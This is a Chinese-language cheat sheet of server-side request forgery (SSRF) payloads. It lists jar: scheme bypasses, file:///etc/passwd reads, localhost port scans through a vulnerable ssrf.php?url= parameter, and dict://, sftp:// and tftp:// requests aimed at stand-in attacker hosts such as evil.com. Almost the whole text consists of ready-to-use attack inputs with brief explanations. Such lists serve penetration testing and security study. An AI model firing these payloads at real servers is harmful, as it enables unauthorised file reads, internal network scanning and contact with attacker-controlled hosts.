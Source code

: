 ### 使用JAR方案绕过

这种攻击技术是完全盲注的，您将看不到结果。

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## 通过URL方案利用

### file

允许攻击者获取服务器上文件的内容。将SSRF转换为文件读取。

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

### http

允许攻击者从Web获取任何内容，也可用于端口扫描。

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

### dict

DICT URL方案用于引用使用DICT协议可用的定义或单词列表：

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### sftp

一种用于通过安全外壳进行安全文件传输的网络协议

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### tftp

简单文件传输协议，通过UDP工作

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```
